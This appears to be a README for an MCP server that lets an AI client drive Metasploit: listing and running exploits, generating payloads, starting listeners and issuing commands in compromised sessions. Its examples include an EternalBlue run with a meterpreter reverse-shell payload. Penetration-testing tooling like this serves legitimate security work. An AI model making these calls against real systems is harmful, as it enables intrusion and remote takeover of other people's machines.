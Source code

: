 # Simplified Metasploit MCP Server

A clean, easy-to-use MCP (Model Context Protocol) server that provides comprehensive Metasploit functionality without the complexity of SSE/FastAPI.

## Features

- **Simple Setup**: Pure MCP implementation using stdio transport
- **Comprehensive Coverage**: All essential Metasploit functions
- **Easy Integration**: Works with any MCP-compatible client
- **Clean API**: JSON-based responses with clear error handling
- **No Web Dependencies**: No FastAPI/SSE complexity

## Available Tools

### Core Functions
- `list_exploits` - List available exploits with search filtering
- `list_payloads` - List available payloads with platform/arch filtering
- `get_exploit_info` - Get detailed information about specific exploits

### Exploitation
- `run_exploit` - Execute exploit modules with payload configuration
- `run_auxiliary` - Run auxiliary modules (scanners, etc.)
- `run_post_module` - Execute post-exploitation modules

### Session Management
- `list_sessions` - List all active sessions
- `interact_session` - Send commands to sessions and get output

### Payload Generation
- `generate_payload` - Generate payloads in various formats
- `start_handler` - Start payload handlers/listeners

### Job Management
- `list_jobs` - List active background jobs
- `stop_job` - Stop running jobs

## Prerequisites

1. **Metasploit Framework** installed and running
2. **msfrpcd** service running:
   ```bash
   msfrpcd -P yourpassword -S -a 127.0.0.1 -p 55553
   ```

## Installation

1. Clone or download the server files
2. Install dependencies:
   ```bash
   pip install -r requirements.txt
   ```

## Configuration

Set environment variables for Metasploit connection:

```bash
export MSF_PASSWORD="yourpassword"  # Default: msf
export MSF_SERVER="127.0.0.1"       # Default: 127.0.0.1
export MSF_PORT="55553"              # Default: 55553
export MSF_SSL="false"               # Default: false
```

## Usage

### Start the Server
```bash
python metasploit_mcp_server.py
```

The server will:
1. Test connection to Metasploit
2. Start the MCP server on stdio
3. Wait for client connections

### Example Usage (with MCP client)

```python
# List exploits containing "smb"
{
  "tool": "list_exploits",
  "arguments": {
    "search": "smb",
    "limit": 10
  }
}

# Get exploit information
{
  "tool": "get_exploit_info", 
  "arguments": {
    "exploit_name": "windows/smb/ms17_010_eternalblue"
  }
}

# Run an exploit
{
  "tool": "run_exploit",
  "arguments": {
    "exploit_name": "windows/smb/ms17_010_eternalblue",
    "target": "192.168.1.100",
    "payload": "windows/meterpreter/reverse_tcp",
    "lhost": "192.168.1.50",
    "lport": 4444
  }
}

# List active sessions
{
  "tool": "list_sessions",
  "arguments": {}
}

# Interact with a session
{
  "tool": "interact_session",
  "arguments": {
    "session_id": 1,
    "command": "sysinfo"
  }
}
```

## Tool Reference

### list_exploits
- **search** (optional): Filter exploits by name
- **limit** (optional): Max results (default: 50)

### list_payloads  
- **platform** (optional): Filter by platform (windows, linux, etc.)
- **arch** (optional): Filter by architecture (x86, x64, etc.)
- **limit** (optional): Max results (default: 50)

### run_exploit
- **exploit_name**: Name of exploit module
- **target**: Target IP/hostname
- **payload**: Payload to use
- **lhost**: Your IP for reverse connections
- **lport**: Your port for reverse connections
- **options** (optional): Additional exploit options

### run_auxiliary
- **module_name**: Name of auxiliary module
- **options**: Module options (RHOSTS, RPORT, etc.)

### interact_session
- **session_id**: ID of target session
- **command**: Command to execute

### generate_payload
- **payload_type**: Type of payload
- **format** (optional): Output format (exe, raw, python, etc.)
- **lhost**: Your IP
- **lport**: Your port
- **options** (optional): Additional payload options

### start_handler
- **payload_type**: Payload type to handle
- **lhost**: Listen IP
- **lport**: Listen port
- **options** (optional): Additional handler options

## Error Handling

All tools return JSON responses with:
- **Success**: Results in structured format
- **Errors**: Clear error messages with context

## Troubleshooting

1. **Connection Failed**: Check if msfrpcd is running and credentials are correct
2. **Module Not Found**: Verify module names match Metasploit's naming
3. **Permission Denied**: Ensure proper permissions for payload generation

## Security Notes

- Only run on trusted networks
- Use strong passwords for msfrpcd
- Consider firewall rules for RPC access
- Be aware of legal and ethical implications

## Differences from Original Server

This simplified version:
- ✅ Uses standard MCP stdio transport (no SSE complexity)
- ✅ Simpler codebase and maintenance
- ✅ JSON-only responses (no HTML/web interface)
- ✅ Direct pymetasploit3 integration
- ✅ Better error handling and logging
- ❌ No web interface or REST API
- ❌ No advanced session management features
- ❌ No payload file serving

## License

Use responsibly and in accordance with applicable laws and regulations. 